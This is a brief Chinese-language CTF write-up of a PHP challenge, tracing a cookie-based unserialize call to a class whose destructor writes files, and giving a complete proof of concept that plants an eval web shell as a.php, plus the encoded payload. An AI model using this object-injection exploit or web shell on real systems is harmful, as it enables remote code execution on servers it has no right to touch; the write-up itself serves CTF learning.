 丢给seay扫![](https://i.loli.net/2021/10/06/Zl8Luz195PMbqdc.png)

先看一下dptadd.php，每个变量都被加上了waf，sql注入大概g了

```php
function sds_waf($str){
	if(preg_match('/\~|\`|\!|\@|\#|\$|\%|\^|\&|\*|\(|\)|\_|\+|\=|\{|\}|\[|\]|\;|\:|\'|\"|\,|\.|\?|\/|\\\|\<|\>/', $str)){
		return false;
	}else{
		return true;
	}
}
```

再看class.php：

```php
class user{
	public $username;
	public $password;
	public function __construct($u,$p){
		$this->username=$u;
		$this->password=$p;
	}
	public function __destruct(){
		file_put_contents($this->username, $this->password);
	}
}
```

好像可以file_put_contents写马~，再看看再哪里可以触发反序列化
在checklogin.php找到：![](https://i.loli.net/2021/10/06/cZrLxEUkWYApJtX.png)

那么构造payload在cookie传进去就可以了

poc:

```php
<?php

class user{
    public $username = 'a.php';
    public $password = '<?php eval($_POST[1]);?>';
}

$a = new user();
echo urlencode(serialize($a));


# O%3A4%3A%22user%22%3A2%3A%7Bs%3A8%3A%22username%22%3Bs%3A5%3A%22a.php%22%3Bs%3A8%3A%22password%22%3Bs%3A24%3A%22%3C%3Fphp+eval%28%24_POST%5B1%5D%29%3B%3F%3E%22%3B%7D
```

![](https://i.loli.net/2021/10/06/Nlok7mSn6TeLZ4h.png)
